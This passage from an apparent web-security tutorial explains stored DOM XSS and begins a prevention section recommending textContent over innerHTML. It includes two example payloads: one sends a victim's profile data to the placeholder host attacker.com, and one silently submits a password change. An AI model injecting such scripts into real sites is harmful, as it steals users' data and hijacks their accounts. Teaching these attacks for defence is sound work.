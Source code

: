This vulnerability allows attackers to:

1. **Automatic Execution**: Execute JavaScript automatically when the page loads, without requiring user interaction
2. **Session Hijacking**: Steal user cookies and session tokens
3. **Phishing Attacks**: Inject convincing fake login forms or notifications
4. **Data Exfiltration**: Steal sensitive information from the page or API responses
5. **Persistence**: Since the attack is stored in the database, it affects all visitors until removed

## **Advanced Exploitation**

Beyond simple alert boxes, attackers can use more sophisticated payloads:

```html
<script>
  fetch('/api/user/profile')
    .then(r => r.json())
    .then(data => {
      fetch('https://attacker.com/steal?data=' + btoa(JSON.stringify(data)))
    });
</script>
```

Or silently perform actions as the victim:

```html
<script>
  // Create and submit hidden form
  const form = document.createElement('form');
  form.action = '/change_password';
  form.method = 'POST';
  form.style.display = 'none';
  
  const pwd = document.createElement('input');
  pwd.name = 'new_password';
  pwd.value = 'hacked123';
  form.appendChild(pwd);
  
  document.body.appendChild(form);
  form.submit();
</script>
```

## **How to Prevent Stored DOM XSS**

### 1. Safe DOM Methods

**Protection Mechanism:** Use safe DOM manipulation methods that don't execute scripts.

**How it protects:** By using methods like `textContent` instead of `innerHTML`, the browser treats injected content as text, not executable HTML/JavaScript.

**Implementation (JavaScript):**
```javascript
// Unsafe
element.innerHTML = message.content;

// Safe
element.textContent = message.content;
```
